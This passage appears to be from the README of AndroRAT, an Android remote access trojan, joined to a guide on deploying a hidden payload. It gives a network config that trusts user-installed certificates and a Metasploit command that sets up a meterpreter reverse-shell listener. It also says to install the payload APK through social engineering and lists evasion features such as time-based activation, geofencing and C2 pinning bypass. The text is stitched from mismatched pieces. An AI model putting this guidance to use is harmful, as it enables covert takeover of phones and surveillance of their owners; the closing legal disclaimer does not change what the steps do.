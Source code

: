4. **Network Security Bypass:**
```xml

<network-security-config>
    <base-config cleartextTrafficPermitted="true">
        <trust-anchors>
            <certificates src="system" />
            <certificates src="user" />
        </trust-anchors>
    </base-config>
</network-security-config>
```

## Execution Workflow:

1. **Setup Listener:**
```bash
msfconsole -q -x "use exploit/multi/handler; set payload android/meterpreter/reverse_tcp; set LHOST YOUR_IP; set LPORT YOUR_PORT; exploit"
```

2. **Deploy Payload:**
- Use social engineering to install `final_payload.apk`
- Grant minimal permissions during installation
- The payload will establish connection after 5-10 minutes of device idle time

## Advanced Bypass Features:

- **Time-Based Activation:** Payload only activates during specific hours
- **Geofencing:** Only connects from predetermined locations
- **Battery Optimization Bypass:** Uses foreground service with persistent notification
- **Split APK Installation:** Distributes payload across multiple packages
- **SSL Pinning Bypass:** For secure C2 communication

**Note:** Android 15 introduces enhanced security features that make persistent access significantly more difficult. Regular updates to bypass techniques are necessary.

**Legal Warning:** Only use these techniques on devices you own or have explicit written permission to test. Unauthorized access violates computer fraud laws in most countries.


## TODO
* ~~Ngrok support~~
* Set up multi client
* Add screenshot command


## License
AndroRAT is licensed under MIT license take a look at the [LICENSE](LICENSE) for more information.


